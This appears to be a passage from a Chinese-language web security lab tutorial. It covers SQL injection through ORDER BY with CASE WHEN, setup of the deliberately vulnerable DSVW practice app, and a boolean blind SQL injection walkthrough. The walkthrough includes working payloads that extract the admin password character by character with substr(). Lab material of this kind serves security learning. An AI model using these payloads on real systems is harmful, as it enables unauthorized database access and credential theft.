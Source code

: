 ``````
通过使用case when语句可以将order by后的orderExpression表达式中添加select语句。

```
 select * from users order by lastname;
------------------------------------------------------------------------------------
 
SELECT ...
FROM tableList
[WHERE Expression]
[ORDER BY orderExpression [, ...]]
 
orderExpression:
{ columnNr | columnAlias | selectExpression }
    [ASC | DESC]
 
selectExpression:
{ Expression | COUNT(*) | {
    COUNT | MIN | MAX | SUM | AVG | SOME | EVERY |
    VAR_POP | VAR_SAMP | STDDEV_POP | STDDEV_SAMP
} ([ALL | DISTINCT][2]] Expression) } [[AS] label]
 
Based on HSQLDB
---------------------------------------------------------------------------------------
 
select * from users order by (case when (true) then lastname else firstname)
```

### 6.3.2 DSVW 

#### 6.3.2.1 DSVW 简介
Damn Small Vulnerable Web (DSVW) 是使用 Python 语言开发的 Web应用漏洞 的演练系统。其系统只有一个 python 的脚本文件组成, 当中涵盖了 26 种 Web应用漏洞环境, 并且脚本代码行数控制在了100行以内, 当前版本v0.1m。需要python (2.6.x 或 2.7)并且得安装lxml库

#### 6.3.2.2 DSVW 下载

#### 6.3.2.3 DSVW 安装
安装python-lxml，再下载DSVW
```
apt-get install python-lxml
git clone https://github.com/stamparm/DSVW.git
```
直接运行
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190527122236280.png)![在这里插入图片描述](https://img-blog.csdnimg.cn/20190527122253950.png)
如果出现ip无法访问的情况改一下代码即可
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190527122505965.png)

（1）Blind SQL Injection (boolean)

![1559800554388](assets/1559800554388.png)

说明存在盲注

```
?id=2%20AND%201=1 正常显示
?id=2%20AND%201=2 显示不正常
```

构造语句进行盲注，发现不能使用mid只能使用substr。。

```
2 and mid((select password from users where name='admin'),1,1)='7' 不能正常显示
2 and substr((select password from users where name='admin'),1,1)='7'  能正常显示
``````